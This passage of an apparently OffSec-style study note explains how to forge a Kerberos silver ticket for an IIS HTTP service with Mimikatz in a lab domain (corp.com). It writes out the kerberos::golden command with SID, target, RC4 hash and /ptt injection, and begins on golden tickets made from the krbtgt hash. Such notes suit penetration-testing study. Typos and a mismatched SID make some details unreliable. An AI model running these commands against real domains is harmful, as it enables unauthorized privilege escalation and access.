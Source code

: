 ```
whoami /user

SID
S-1-5-21-2536614405-3629634762-1218571035-1116

```

Now that we have the domain SID, let's craft a silver ticket for the IIS service

### Requirements

1. The silver ticket command requires a username <mark style="color:yellow;">/user</mark>

&#x20; 2\. Domain name <mark style="color:yellow;">/domain</mark>

&#x20; 3\. Domain SID <mark style="color:yellow;">/sid</mark>

&#x20; 4\. Fully qualified host name of the     service <mark style="color:yellow;">/target</mark>

&#x20; 5\. Service rtpe <mark style="color:yellow;">/service:HTTP</mark>

&#x20; 6\. Password hash of service account <mark style="color:yellow;">/rc4</mark>

Finally, the silver ricket is injected into memory with the /ppt flag.

<mark style="color:yellow;">Before running this, we will flush any existing Kerberos tickets with kerberos::purge and verify the purge with kerberos::list</mark>

Mimikatz:

```
kerberos::purge
Ticket(s) purge for current session is ok

kerberos::list

kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP 
/rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list
```

* To create a silver ticket, we use the password hash and not the cleartext password
* If a Kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket

### Conclusion

* Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information on the group memberships we put in the silver ticket
* Depending on the service type, it might also be possible to obtain code execution

## Golden Tickets

* When a user submits a request for a TGT, the KDC encrypts the TGT with a secret key that is known only to the KDC's in the domain
* This <mark style="color:yellow;">secret key</mark> is actually the password of a domain user account called krbtgt
* <mark style="color:yellow;">If we are able to gain access to the krbtgt hash, we can create our own TGT or golden tickets!</mark>
* For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins Group and the domain controller will trust it!
